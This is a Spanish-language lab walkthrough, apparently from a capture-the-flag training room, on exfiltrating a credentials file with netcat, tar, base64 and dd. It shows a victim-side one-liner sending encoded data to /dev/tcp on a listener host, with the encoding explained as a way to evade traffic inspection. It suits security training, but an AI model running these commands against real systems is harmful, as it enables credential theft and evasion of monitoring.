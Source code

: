 # Usando ncat y tar

Escuchando en el puerto TCP/8080 en el JumpBox

```c
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
```

Comprobando el archivo creds.txt en la máquina víctima

```c
thm@victim1:~$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```

Ahora que tenemos el archivo de texto de credenciales, usaremos el socket TCP para extraerlo. **Asegúrese de que el oyente se esté ejecutando en Jump-Box** .

¡ Exfiltre datos a través del socket TCP de la máquina víctima!

```c
thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080
0+1 records in
0+1 records out
260 bytes copied, 9.8717e-05 s, 2.6 MB/s
```

Analicemos el comando anterior  y expliquemos :

1. Usamos el  comando tar  para crear un archivo con los  argumentos zcf  del contenido del directorio secreto.
2. La  z  es  para usar gzip para comprimir la carpeta seleccionada, la  c  es para crear un nuevo archivo y la  f  es para usar un archivo comprimido.
3. Luego pasamos el archivo tar creado al comando base64 para convertirlo a una representación base64.
4. Luego, pasamos el resultado del comando base64 para crear y copiar un archivo de respaldo con el  comando dd  usando datos de codificación EBCDIC.
5. Finalmente, redirigimos la  salida del comando dd  para transferirla usando el socket  TCP en la IP y el puerto especificados, que en este caso, el puerto 8080 .

Tenga en cuenta que utilizamos la codificación Base64 y EBCDIC para proteger los datos durante la exfiltración. Si alguien inspecciona el tráfico, estará en un formato no legible para humanos y no revelará el tipo de archivo transmitido.

Una vez que presionemos Enter, deberíamos recibir los datos codificados en el  directorio /tmp/  .

Comprobación de los datos recibidos en el JumpBox&#x20;

```c
thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
Listening on [0.0.0.0] (family 0, port 8080)
Connection from 192.168.0.101 received!

thm@jump-box$ ls -l /tmp/
-rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data
```

En Jump-Box, necesitamos convertir los datos recibidos a su estado original. Usaremos la  herramienta dd  para volver a convertirlo.&#x20;

Restaurando el archivo tar

```c
thm@jump-box$ cd /tmp/
thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar
0+1 records in
0+1 records out
260 bytes transferred in 0.000321 secs (810192 bytes/sec)
```

La siguiente es la explicación del comando anterior:

1. Usamos el  comando dd  para convertir el archivo recibido a  representación ASCII   . Usamos task4-creds.data  como entrada para el  comando dd  .&#x20;
2. La salida del  comando dd  se pasará a base64 para decodificarla usando el  argumento -d  .
3. Finalmente, guardamos el resultado en el  archivo task4-creds.tar   .

A continuación, debemos usar el  comando tar  para descomprimir el  archivo task4-creds.tar  y verificar el contenido de la siguiente manera:

Descomprimiendo el archivo tar

```c
thm@jump-box$ tar xvf task4-creds.tar
task4/ 
task4/creds.txt
```

Analicemos el comando anterior  y expliquemos :

1. Usamos el  comando tar  para descomprimir el archivo con los  argumentos xvf  .
2. La  x  es  para extraer el archivo tar, la  v  para enumerar archivos detalladamente y la  f  es para usar un archivo comprimido.

Ahora confirmemos que tenemos los mismos datos de la máquina víctima.

Confirmando los datos recibidos.

```c
thm@jump-box$ cat task4/creds.txt
admin:password
Admin:123456
root:toor
```
